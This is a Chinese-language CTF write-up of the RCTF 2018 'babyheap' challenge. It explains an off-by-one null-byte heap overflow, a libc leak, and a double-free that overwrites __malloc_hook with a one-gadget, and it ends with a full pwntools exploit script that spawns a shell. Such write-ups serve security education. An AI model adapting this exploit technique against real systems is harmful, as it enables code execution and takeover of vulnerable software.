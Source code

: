 # RCTF babyheap
## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>先贴一下**securisecctf队**写的[原wp](https://twisted-fun.github.io/2018-05-24-RCTF18-PWN-317/)的地址，我在这里配合这篇wp再解析一下。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>拿到二进制文件后常规检查一下，可以看到程序本身所有的保护都开了，而libc有一个没开，这意味这我们有改写libc的GOT表的权限，在这里我们可以修改__malloc_hook。</font></br>

![babyheap1](../../screenshot/babyheap/babyheap1.png)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>用IDA打开附带的libc.so.6，搜索字符串，跟踪/bin/sh，可以看到从**0x4526a**地址处开始有调用execve("/bin/sh")，因此这里就是我们用来getshell的gadget了；用'objdump -R libc.so.6 | grep hook'命令得到__malloc_hook的地址:**0x3c3ef0**</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们开始分析这个程序，很典型的堆题套路，漏洞点就在alloc的时候，输入堆块内容的时候存在溢出最后一字节的可能性:</font></br>

```C
__int64 __fastcall set_chunk(__int64 chunk, unsigned int size)
{
  char buf; // [sp+13h] [bp-Dh]@2
  unsigned int i; // [sp+14h] [bp-Ch]@1
  __int64 v5; // [sp+18h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  for ( i = 0; i < size; ++i )
  {
    buf = 0;
    if ( read(0, &buf, 1uLL) < 0 )
      put_error((__int64)"read() error");
    *(_BYTE *)(chunk + i) = buf;
    if ( buf == 10 )
      break;
  }
  *(_BYTE *)(i + chunk) = 0;
  return *MK_FP(__FS__, 40LL) ^ v5;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>64位下利用off-by-one漏洞需要分配一个MINSIZE-8的大小，（不懂原理的可以先看[这里](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/ "sploitfun")）然后就可以在8字节覆盖完了堆的pre_size后，剩下的溢出的最后一个NULL字节覆盖size的最低地址，抹掉了prev_inuse的标志位，就可以让allcator误以为前面的堆块已经被释放了，触发合并操作，然后配合double-free就可以为所欲为了。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有了利用思路后，我们首先分配四个堆块，并且尝试泄露libc地址。</font></br>

```python
alloc(0xf0,'A' * 0xf0)#0
alloc(0x70,'A' * 0x70)#1
alloc(0xf0,'A' * 0xf0)#2
alloc(0x30,'A' * 0x30)#3
delete(0)
delete(1)

alloc(0x78,'B' * 0x70 + p64(0x180))#0

delete(2)
alloc(0xf0,'A' * 0xf0)

show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>有一点需要注意的是程序内部记录堆块和内存中真正bins里的记录是不一样的，比如分配完之后链表是这样的:</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e400	0x000055f71691e500
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>释放完了0号和1号堆块之后是这样的：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x0000000000000000	0x0000000000000000
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后我们重新申请一块0x78(MINSIZE-8)的内存之后实际上分配过来的是原来的1号堆块，但是程序记录时重新将这个堆块标记为0：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e500	0x0000000000000000
0x511654eb7010:	0x000055f71691e580	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>如上，这就像是链表中原先1号堆块被放到了0号，不过这么理解不太好。实际上是分别释放完了堆块0和1以后（实际bins是向前插入），内存中bins是：{1，0，...}，然后我们再次申请跟1相同大小的内存块的时候系统会直接返还给之前的堆块给我们也就是堆块1，然而这个堆块1会被程序记录为0。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>好了，废话有点多，接下来我们分配的是MINSZIE-8大小的堆块，所以实际上存在8字节可以覆盖下一个堆块（堆块2）的pre_size，然后NULL byte可以覆盖size的pre_inuse标志，当我们写入0x70*'a'+p64(0x180)的时候，下一个堆块的pre_size被修改为0x180,然后pre_inuse被清除，这就相当于欺骗了malloc以为之前有一个0x180大小的已经被释放的堆块，然后我们delete堆块2，malloc就会把这两个堆块合并起来，就会存在一个0x280的大堆块。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来再分配一个0xf0大小的堆块，会被记录为1号，但是在内存里会被放在1号堆块之前的位置，这时候链表是这样的：</font></br>

```C
pwndbg> x/10xg 0x511654eb7000
0x511654eb7000:	0x000055f71691e500	0x000055f71691e400
0x511654eb7010:	0x0000000000000000	0x000055f71691e680
0x511654eb7020:	0x0000000000000000	0x0000000000000000
0x511654eb7030:	0x0000000000000000	0x0000000000000000
0x511654eb7040:	0x0000000000000000	0x0000000000000000

pwndbg> x/20xg 0x000055f71691e400
0x55f71691e400:	0x4141414141414141	0x4141414141414141
0x55f71691e410:	0x4141414141414141	0x4141414141414141
0x55f71691e420:	0x4141414141414141	0x4141414141414141
0x55f71691e430:	0x4141414141414141	0x4141414141414141
0x55f71691e440:	0x4141414141414141	0x4141414141414141
0x55f71691e450:	0x4141414141414141	0x4141414141414141
0x55f71691e460:	0x4141414141414141	0x4141414141414141
0x55f71691e470:	0x4141414141414141	0x4141414141414141
0x55f71691e480:	0x4141414141414141	0x4141414141414141
0x55f71691e490:	0x4141414141414141	0x4141414141414141
pwndbg> 
0x55f71691e4a0:	0x4141414141414141	0x4141414141414141
0x55f71691e4b0:	0x4141414141414141	0x4141414141414141
0x55f71691e4c0:	0x4141414141414141	0x4141414141414141
0x55f71691e4d0:	0x4141414141414141	0x4141414141414141
0x55f71691e4e0:	0x4141414141414141	0x4141414141414141
0x55f71691e4f0:	0x0000000000000000	0x0000000000000181
0x55f71691e500:	0x00007f1e8aa59b78	0x00007f1e8aa59b78
0x55f71691e510:	0x4242424242424242	0x4242424242424242
0x55f71691e520:	0x4242424242424242	0x4242424242424242
0x55f71691e530:	0x4242424242424242	0x4242424242424242

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来输入0号堆块的内容，就会泄露出main_arena的地址了，再进行一些计算就能算出libc_base的实际地址，绕过ASLR：</font></br>

```C
 0x55f71690f000     0x55f71693f000 rw-p    30000 0      [heap]
 0x7f1e8a695000     0x7f1e8a855000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so

```
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来进行如下操作：</font></br>

```python
delete(1)

alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>释放完了堆块1号（内存实际位置在0号堆块之前），下面三次alloc都会重新返回刚释放的堆块的地址。在第四次alloc的时候，会把0号堆块切割一下返回分配出来，并被设置为5号堆块，这个时候如果我们free堆块5号和堆块0号（为什么可以free堆块0？因为程序并不知情已经被合并到一个大空闲块了，但是链表记录还在:），相当于对同一个堆块free了两次，出现了double free漏洞，这里我们再free一下4号绕过简单的double free检测，然后就可以利用了：</font></br>

```python
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")

r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后就得到shell了，完整脚本如下：</font></br>

Exploit脚本：
=========

```python
from pwn import *

DEBUG = 1

if DEBUG == 1:
  r = process('./babyheap')
  context(log_level='debug')
  gdb.attach(r)
else:
  r = remote('babyheap.2018.teamroir.cn',3154)

def alloc(size, payload):
        r.sendlineafter('choice: ','1')
        r.sendlineafter('please input chunk size: ',str(size))
        r.sendafter('input chunk content: ',payload)
def show(index):
        r.sendlineafter('choice: ','2')
        r.sendlineafter('please input chunk index: ',str(index))
def delete(index):
        r.sendlineafter('choice: ','3')
        r.sendlineafter('please input chunk index: ',str(index))

libc = ELF('./libc.so.6')
alloc(0xf0,'A' * 0xf0)#0
alloc(0x70,'A' * 0x70)#1
alloc(0xf0,'A' * 0xf0)#2
alloc(0x30,'A' * 0x30)#3
delete(0)
delete(1)

alloc(0x78,'B' * 0x70 + p64(0x180))#0

delete(2)
alloc(0xf0,'A' * 0xf0)

show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))

delete(1)

alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60) 
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")

r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()

```
